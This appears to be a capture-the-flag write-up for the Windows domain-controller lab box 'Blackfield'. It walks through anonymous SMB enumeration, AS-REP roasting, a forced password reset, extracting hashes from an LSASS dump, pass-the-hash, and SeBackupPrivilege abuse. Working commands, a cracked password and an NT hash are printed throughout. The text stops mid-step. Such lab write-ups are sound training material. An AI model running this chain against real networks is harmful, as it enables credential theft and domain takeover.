

## Overview

Blackfield is a hard Windows AD box that chains four distinct techniques:

- Pull a user list from an anonymously readable `profiles$` SMB share and **AS-REP roast** `support`
- Use BloodHound to spot a `ForceChangePassword` edge, reset `audit2020`'s password over RPC, and unlock a `forensic` share
- Recover `svc_backup`'s NT hash from an **LSASS memory dump** with pypykatz
- Abuse **SeBackupPrivilege** to shadow-copy `SAM`/`SYSTEM` and the `NTDS.dit`, then dump the Administrator hash

**Tools:** nmap · smbmap · smbclient · impacket (GetNPUsers, secretsdump) · John · rpcclient · BloodHound · pypykatz · evil-winrm · diskshadow · robocopy

## Recon

```
nmap -p- -sCV 10.10.10.192 -Pn -oN nmapscan
```

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows AD LDAP (Domain: BLACKFIELD.local)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows AD LDAP (Domain: BLACKFIELD.local)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
```

Service info: `Host: DC01`. Standard domain controller — Kerberos, LDAP, SMB and WinRM. LDAP anonymous binds are locked down, so SMB is the way in.

## Enumeration: anonymous SMB

Guest access is enabled. Listing shares with `smbmap` shows two readable shares:

```
smbmap -u guest -p "" -H 10.10.10.192
```

```
Disk          Permissions
----          -----------
IPC$          READ ONLY
profiles$     READ ONLY
```

`profiles$` is full of per-user directories — effectively a username list:

```
smbclient //10.10.10.192/profiles$ -U guest% -c ls | awk '{print $1}' > users.txt
```

## Foothold: AS-REP roast

Feed that user list to `GetNPUsers` to find any account with Kerberos pre-authentication disabled:

```
impacket-GetNPUsers -no-pass -usersfile users.txt -request \
  -format hashcat -outputfile asrep.txt -dc-ip 10.10.10.192 'blackfield.local/'
```

`support` comes back AS-REP roastable. Crack it with John:

```
john asrep.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Credentials: **`support:#00^BlackKnight`**

These don't grant WinRM (evil-winrm, psexec and wmiexec all fail), but they're enough to enumerate over RPC and run BloodHound.

```
rpcclient -U support //10.10.10.192
# enumdomusers / enumdomgroups
```

Domain users of note: `Administrator`, `audit2020`, `support`, `svc_backup`, `lydericlefebvre`.

## Lateral movement: ForceChangePassword

Collect graph data as `support`:

```
bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local \
  -ns 10.10.10.192 -c DcOnly
```

There's no straightforward path to DA, but the **Outbound Object Control** panel on `support` shows a `ForceChangePassword` edge over `audit2020` — `support` can reset that account's password without knowing the current one.



Reset it over RPC using `setuserinfo2` ([reset an AD user password from Linux](https://malicious.link/posts/2017/reset-ad-user-password-with-linux/)):

```
rpcclient -U support //10.10.10.192
rpcclient $> setuserinfo2 audit2020 23 'abc123!'
```

As `audit2020`, a new share opens up:

```
smbmap -u audit2020 -p 'abc123!' -H 10.10.10.192
```

```
forensic     READ ONLY
```

## Looting the forensics share

```
smbclient //10.10.10.192/forensic -U audit2020
```

Three directories:

- `commands_output` — saved enumeration command output
- `tools` — forensics binaries, nothing useful
- `memory_analysis` — a pile of zipped memory dumps

`lsass.zip` contains an `lsass.DMP` — an LSASS process dump, which holds credential material. Mimikatz won't run on Linux, so use [pypykatz](https://github.com/skelsec/pypykatz):

```
pypykatz lsa minidump lsass.DMP --json -o hashes.json
```

This recovers the NT hash for `svc_backup` (among others):

```
Username: svc_backup
Domain:   BLACKFIELD
NT:       9658d1d1dcd9250115e2205d9f48400d
```

## Shell as svc_backup

Unlike `support`, `svc_backup` is allowed WinRM. Pass-the-hash with evil-winrm:

```
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

The account is heavily restricted — WinPEAS is blocked by AV, and `systeminfo`, `schtasks` and `Get-CimInstance` all return access denied. But the privileges tell the real story:

```
whoami /priv
```

```
Privilege Name            Description                    State
========================  =============================  =======
SeMachineAccountPrivilege Add workstations to domain     Enabled
SeBackupPrivilege         Back up files and directories  Enabled
SeRestorePrivilege        Restore files and directories  Enabled
...
```

## Privilege escalation: SeBackupPrivilege

`SeBackupPrivilege` lets you read any file on disk, ignoring ACLs. The locked files we want are the registry hives and the AD database. Use `diskshadow` to make a shadow copy of `C:` and `robocopy /b` (backup mode) to pull files off it. References: [r3d-buck3t](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960), [juggernaut-sec](https://juggernaut-sec.com/sebackupprivilege/).

### Dumping SAM + SYSTEM (local admin check)

Build a diskshadow script:

```powershell
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp"          | out-file ./diskshadow.txt -encoding ascii -append
echo "create"                            | out-file ./diskshadow.txt -encoding ascii -append
echo "expose %temp% z:"                  | out-file ./diskshadow.txt -encoding ascii -append
```

```
diskshadow.exe /s C:\Users\svc_backup\diskshadow.txt
robocopy /b Z:\Windows\System32\Config C:\temp SAM
robocopy /b Z:\Windows\System32\Config C:\temp SYSTEM
```

Download